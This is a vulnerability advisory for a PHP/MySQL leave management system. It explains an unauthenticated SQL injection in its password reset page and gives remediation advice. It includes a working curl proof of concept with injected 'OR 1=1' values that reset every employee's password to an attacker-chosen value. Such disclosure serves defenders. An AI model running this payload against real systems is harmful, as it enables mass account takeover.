


Leave Management System Bulk Password Reset SQL Injection — Advisory

- Project: leavesys (PHP/MySQL Leave Management System)
- Severity: Critical
- CWE: CWE-89 (SQL Injection)
- Affected Component: Password recovery endpoint

Summary
- The password recovery flow allows unauthenticated attackers to perform SQL injection, bypass user verification, and reset the password of all accounts in tblemployee to an attacker-chosen value. This has been practically verified with the password pwned123 .
Affected Files & Symbols

- Entry point: `reset.php`
- Verification query: `findCURemployee`
- Password update query: `updatemem`
- DB execution: `executeQuery`
Root Cause

- User inputs user_email and employid are directly concatenated into SQL without parameter binding.
- Verification uses: SELECT * FROM tblemployee WHERE USERNAME='{username}' AND EMPLOYID='{employid}' LIMIT 1 (injectable).
- Update uses: UPDATE tblemployee SET PASSWRD=sha1('{newpass}') WHERE EMPLOYID={id} where {id} is unquoted; with employid=0 OR 1=1 , the WHERE becomes WHERE EMPLOYID=0 OR 1=1 and matches all rows.

Proof of Concept (Windows curl)
```bash
curl -s -D - -o - -X POST http://localhost/leavesys/reset.php -H "Content-Type: application/x-www-form-urlencoded" --data-urlencode "user_email=x' OR 1=1 LIMIT 1 #%0A" --data "employid=0 OR 1=1&newpass=pwned123&cpass=pwned123&btnreset=1"
```

- Bulk reset all passwords to pwned123 :
- Verify login using the reset password (matches first row by injected condition):

Observed Result


- The reset endpoint returns HTTP 200 with a success message and JavaScript redirect to login.php .
- Subsequent login succeeds with pwned123 , establishing a valid session.

Impact
- Unauthenticated mass password reset and full account takeover.
- Compromise of all user accounts and administrative functions.

CVSS v3.1 (Proposed)
- 9.8 — AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N

Remediation
- Replace all dynamic SQL with prepared statements (mysqli/PDO) throughout the password recovery and member modules.
- Strictly validate and type-constrain EMPLOYID and USERNAME server-side; never allow boolean expressions from user input in WHERE clauses.
- Ensure identifiers are not interpolated; only bind values via parameters.
- Standardize on mysqli_* or PDO and remove deprecated/legacy API usage.
Disclosure Timeline (Example)

- 2025-10-01: Vulnerability discovered and verified (bulk reset + login).
- 2025-10-01: Advisory prepared for public disclosure; vendor notification pending.
Acknowledgments

- Researcher:px